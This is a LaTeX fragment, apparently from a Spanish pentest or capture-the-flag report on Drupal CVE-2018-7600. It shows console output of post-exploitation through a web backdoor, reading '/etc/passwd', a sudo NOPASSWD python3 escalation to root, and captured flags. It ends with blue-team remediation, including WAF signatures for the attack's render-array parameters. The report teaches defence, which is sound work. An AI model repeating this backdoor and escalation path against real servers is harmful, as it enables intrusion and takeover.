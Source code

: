 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{tcolorbox}
\begin{verbatim}
==================================================
         POST-EXPLOITATION & FLAG HARVESTING         
==================================================
[*] Retrieving basic system metadata via /backdoor.php...
  - Current User: www-data
  - Shell Identity: uid=33(www-data) gid=33(www-data) groups=33(www-data)
  - Kernel Version: Linux public-agency-server 4.15.0-142-generic #146...
[*] Exfiltrating simulated system files...
--- /etc/passwd ---
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:102:104:MySQL Server,,,:/nonexistent:/bin/false
-------------------
[*] Retrieving User Privilege Flag...
[+] User Flag: FLAG{REDTEAMPRO_SYSTEM_OWNED_NIST_800_115_SUCCESS}

==================================================
         PRIVILEGE ESCALATION (NIST 800-115)         
==================================================
[*] Checking sudo privileges...
--- sudo -l output ---
User www-data may run the following commands on public-agency-server:
    (root) NOPASSWD: /usr/bin/python3
----------------------
[+] Privilege escalation path found! (NOPASSWD python3)
[*] Executing root shell payload to read /root/flag_root.txt...
[+] Root Flag: FLAG{ROOT_LEVEL_PRIVILEGE_ESCALATION_COMPLETED_CVE_2018_7600}
\end{verbatim}
\end{tcolorbox}


\section{PLAN DE ACCIÓN Y MITIGACIONES RECOMENDADAS (BLUE TEAM)}
Para restaurar la seguridad de los sistemas de la organización, se propone el siguiente plan detallado de remediación a corto y medio plazo:

\subsection{Mitigación de la Vulnerabilidad de Drupal (CVE-2018-7600)}
\begin{itemize}
    \item \textbf{Acción Inmediata (Parcheo)}: Actualizar inmediatamente la instalación de Drupal a una versión corregida. Para la rama 8.5.x, se debe actualizar a \textbf{Drupal 8.5.1} o superior. De manera general, se aconseja migrar a las últimas versiones estables soportadas.
    \item \textbf{Aplicación de Parches Manuales}: Si la actualización no puede realizarse de forma automatizada de inmediato, se deben aplicar los parches oficiales de seguridad descritos en el aviso \textbf{SA-CORE-2018-002}.
    \item \textbf{Reglas del Cortafuegos de Aplicación Web (WAF)}: Implementar firmas en el WAF corporativo (ModSecurity o similar) para inspeccionar los parámetros HTTP POST y descartar peticiones dirigidas a \texttt{user/register} o formularios AJAX que contengan metacaracteres \texttt{\#} asociados con elementos de renderizado (\texttt{\#markup}, \texttt{\#post\_render}, \texttt{\#theme}, etc.).
\end{itemize}
\end{document}
